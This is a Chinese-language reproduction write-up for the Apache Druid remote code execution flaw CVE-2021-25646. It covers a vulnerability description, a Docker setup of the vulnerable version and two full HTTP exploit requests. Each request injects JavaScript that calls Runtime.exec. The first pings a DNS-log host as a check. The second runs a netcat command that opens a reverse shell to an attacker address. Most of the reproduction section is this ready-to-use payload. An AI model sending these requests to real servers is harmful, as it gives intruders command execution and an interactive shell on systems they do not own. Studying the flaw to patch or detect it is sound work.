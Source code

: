 # Apache Druid 远程代码执行漏洞 CVE-2021-25646

# Apache Druid 远程代码执行漏洞 CVE-2021-25646

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。
Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。
Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码。

参考链接：

* https://github.com/apache/druid/issues/2434
* https://forum.ywhack.com/thread-115083-1-1.html
* https://druid.apache.org/docs/latest/operations/api-reference.html#broker
* https://lists.apache.org/thread.html/r20e0c3b10ae2c05a3aad40f1476713c45bdefc32c920b9986b941d8f@%3Cannounce.apache.org%3E
* https://www.o2oxy.cn/3090.html

## 漏洞影响

```
Apache Druid < 0.20.1
```

## 环境搭建

这里使用Docker来搭建环境

![524514a5-199b-4365-a193-1defa9017858](/images/524514a5-199b-4365-a193-1defa9017858.png)



Docker下载链接: https://github.com/apache/druid/archive/druid-0.20.0.zip

下载之后进入目录 **distribution\docker**

执行命令编译 **docker-compose up -d**

![2](/images/202202090029557.png)

访问 http://xxx.xxx.xxx.xxx:8888 正常就行了

![3](/images/202202090029993.png)

## 漏洞复现

漏洞原理: https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw

POC请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 995
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

![4](/images/4.png)



- 注意请求中这个位置改为你的dnslog平台地址
- java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')

发送请求即可命令执行

![5](/images/5.png)





- 可能大部分都是docker搭建，而里面大部分命令是不存在的，但是发现docker里面居然默认是有 NC 命令的，那我们就可以用nc反弹一个shell了

反弹shell请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 1008
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec(' nc xxx.xxx.xxx.xxx 9999 -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

发送请求包就可以得到一个交互式shell

![6](/images/6.png)

